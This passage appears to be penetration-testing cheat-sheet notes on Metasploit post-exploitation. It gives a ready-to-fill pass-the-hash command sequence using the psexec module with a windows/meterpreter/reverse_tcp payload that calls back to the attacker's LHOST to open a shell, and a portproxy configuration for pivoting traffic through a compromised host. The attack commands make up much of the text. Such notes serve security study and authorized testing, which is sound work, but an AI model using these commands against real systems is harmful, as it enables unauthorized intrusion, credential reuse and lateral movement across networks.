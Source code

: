 - When the executable is executed on the victim the handler will present the resultant shell 

## Post Exploitation 

### Pass the hash

- Needs hash from another host for example you ran hashdump 

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST <local IP>
set LPORT <local port>
set RHOST <target ip> 
set SMBPass <hash>
set SMBUser <username>
exploit 
```

### PortProxy

- portproxy module can be used to create a port forwarding rule 
- You set the IP and port the client is listening on and configure a connect address where traffic to that port is forwarded on to

```
set CONNECT_ADDRESS <IP to forward traffic>
set CONNECT_PORT <port to forward traffic>
set LOCAL ADDRESS <local address to listen on>
set LOCAL_PORT <local Port to listen on>
```

- It acts as a wrapper around netsh 
- Then configure your exploit LHOST and LPORT to be the client you are proxy through 